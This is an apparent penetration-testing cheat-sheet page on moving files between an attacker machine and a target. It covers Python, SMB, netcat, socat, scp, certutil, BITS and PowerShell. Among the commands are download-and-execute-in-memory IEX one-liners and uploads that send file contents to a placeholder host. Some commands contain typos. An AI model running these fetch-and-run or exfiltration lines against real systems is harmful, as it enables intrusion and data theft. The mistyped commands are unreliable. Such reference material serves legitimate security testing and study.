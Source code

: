 ```yaml
---
layout: default
title: Moving Files Around
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Local web server
```
// Python 2
python -m SimpleHTTPServer

// Python3
python3 -m http.server
python3 -m http.server <port>
python3 -m http.server --bind 172.x.x.x 443
python3 -m http.server --bind 172.x.x.x --directory tools/ 443
```

See [this link](https://floatingoctothorpe.uk/2017/receiving-files-over-http-with-python.html) for creating a `http.server` that accepts `PUT` requests. Use with something like:

```
curl -X PUT -T file-to-upload http://<IP>:<port>/
```

<br />

## Local FTP server
```
// Python 3
python3 -m pyftpdlib
python3 -m pyftpdlib --interface=172.x.x.x -p4433
python3 -m pyftpdlib --interface=172.x.x.x -p4433 -username=user --password='pass' --directory=tools/ --verbSMB server
```

<br />

## Local SMB server
```
Main issue is trying to bind Windows to a non-standard port number. Running on the standard port requires sudo which is a pain.
// Sudo required for access to lower port.
sudo impacket-smbserver -username user -password pass -smb2support Shared tools/

// Sudo not required for higher port, this proves troublesome for Windows though.
impacket-smbserver -username user -password pass -port 4343 -smb2support Shared tools/
```

<br />

## Netcat
Note there are multiple implementations of Netcat: netcat, ncat and nc to name a few.

```
// On sender.
nc -q0 10.x.x.x 4343 < file.in
compress -c file.in | nc -q0 10.x.x.x 4343

// On receiver.
nc -lp 4343 > file.out
nc -lp 4343 | uncompress > file.out
```

<br />

## Socat
```
// On sender.
socat -u FILE:file.in TCP:10.x.x.x:4343

// On receiver.
socat -u TCP-LISTEN:4343 OPEN:file.out,creat,trunc
```

<br />

## Secure Copy
Assumes ssh access.

```
// Copy file from target to local folder.
scp user@10.x.x.x:file.in /local/folder/

// Copy directory from target to local folder.
scp -r user@10.x.x.x:/remote/folder /local/folder/

// Copy local file to remote target.
scp file.local user@10.x.x.x;/remote/folder/

// Copy local folder to remote target.
scp -r /local/folder/ user@10.x.x.x /local/folder/

// Copy remote file to remote target.
scp from-user@10.x.x.x:/source/folder/ to-user@10.y.y.y:/dest/folder/ 
```

<br />

## Windows certutil.exe
```
certutil -urlcache -f http://10.x.x.x/file.exe out.exe
certutil -verifyctl -split -f http://10.x.x.x/file.exe
```

<br />

## Windows BITS
```
// Download resource from web server or SMB share.
bitsadmin /transfer n http://10.x.x.x:443/file.exe C:\Users\Public\Downloads\file.exe
```

<br />

## PowerShell
### DownloadString
```
// Download and execute in memory using Invoke-Expression (IEX).
IEX(New-Object Net.WebClient).DownloadString('http://10.x.x.x:80/resource.ps1')

// Download and execute in memory using IEX.
(New-Object Net.WebClient).DownloadString('http://10.x.x.x:80/resource.ps1') | IEX
```

### DownloadFile
```
// Download and save file locally.
(New-Object Net.WebClient).DownloadFile('http://10.x.x.x:80/resource.ps1', "C:\Users\Public\Downloads\resource.ps1")
```

### Invoke-WebRequest
```
// Download.
Invoke-WebRequest http://10.x.x.x:80/resource.ps1 -OutFile resource.ps1

// Download and execute in memory.
Invoke-WebRequest http://10.x.x.x:00/resource.ps1 | IEX

// Download, ignore IE not having been run errors
Invoke-WebRequest http://10.x.x.x:80/resource.ps1 -UseBasicParsing | IEX

// Upload to POST enabled HTTP server.
$data = [System.Convert]::ToBase64String((Get-Content -Path 'C:\Users\Public\Downloads\dir.txt' -Encoding Byte))
Invoke-WebRequest -Uri http://10.x.x.x:80 -Method POST -Body $data
```

### Start-BitsTransfer
```
// Import the module.
Import-Modile bitstransfer

// Download.
Start-BitsTransfer -Source "http://10.x.x.x/file.exe" -Destination "C:\Users\Public\Downloads\file.exe"

// Upload (check the available options for this).
Start-BitsTransfer "C:\Users\Public\Downloads\file.exe" -Destination "http://10.x.x.x/file.exe" -TransferType Upload
```

### Windows Misc
```
// Test for the following aliases:
curl
wget 
```

<br />

## Evil-WinRM
```
// Upload local file to remote.
*Evil-WinRM* PS C:\> Upload local.file remote.file

// Download remote file to local.
*Evil-WinRM* PS C:\> Download remote.file local.file
```

## Misc
If you have a shell and the files are small, you can convert them to `base64` and copy/paste between windows.

